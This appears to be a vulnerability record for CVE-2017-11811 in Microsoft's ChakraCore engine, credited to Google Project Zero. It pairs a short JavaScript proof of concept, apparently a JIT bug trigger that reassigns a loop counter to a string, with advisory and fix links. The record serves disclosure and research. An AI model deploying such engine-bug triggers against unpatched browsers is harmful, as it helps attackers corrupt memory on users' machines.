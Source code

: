 # CVE-2017-11811

- Fix: Nov 2017
- Credit: lokihardt of Google Project Zero

## PoC

```javascript
function opt() {
    for (let i = 0; i < 100; i++) {
        let j = i - 2;
        switch (i) {
            case 2:
            case 4:
            case 6:
            case 8:
            case 10:
            case 12:
            case 14:
            case 16:
            case 18:
            case 20:
            case 22:
            case 24:
            case 26:
            case 28:
            case 30:
            case 32:
            case 34:
            case 36:
            case 38:
                break;
        }

        if (i == 90) {
            i = 'x';
        }
    }
}

function main() {
    for (let i = 0; i < 100; i++) {
        opt();
    }
}

main();
```

## Reference

- [Microsoft](https://portal.msrc.microsoft.com/en-us/security-guidance/advisory/CVE-2017-11811)
- [Google Project Zero](https://bugs.chromium.org/p/project-zero/issues/detail?id=1341)
- [Fix](https://github.com/Microsoft/ChakraCore/commit/775ed512a7b7c3b97ffea47ba5e4727e197c9782)
